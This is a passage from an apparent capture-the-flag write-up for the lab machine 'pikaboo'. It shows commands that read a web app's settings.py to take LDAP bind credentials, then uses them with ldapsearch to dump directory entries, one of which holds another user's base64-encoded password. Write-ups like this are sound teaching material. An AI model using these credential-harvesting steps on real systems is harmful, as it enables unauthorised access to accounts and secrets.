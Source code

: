```
www-data@pikaboo:/var/www/html/admin_staging$ wc -c /home/pwnmeow/user.txt
33 /home/pwnmeow/user.txt
```


# Root

The next step is also coincidentally outlined in the post by orange tsai. The web app has a `settings.py` file which contains the database credentials for ldap `binduser:J~42%W?PFHl]g`.

## LDAP

```
www-data@pikaboo:/$ cat /opt/pokeapi/config/settings.py
# Production settings
import os
from unipath import Path

PROJECT_ROOT = Path(__file__).ancestor(2)
...[snip]...
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
...[snip]...
```

With these credentials we can now query ldap for all levels with the `sub` scope. This results in another user with his password encoded in base64.

```
www-data@pikaboo:/$ ldapsearch -s sub -b "dc=pikaboo,dc=htb" -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w "J~42%W?PFHl]g"
# extended LDIF
#
# LDAPv3
# base <dc=pikaboo,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
...[snip]...
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
...[snip]...
```
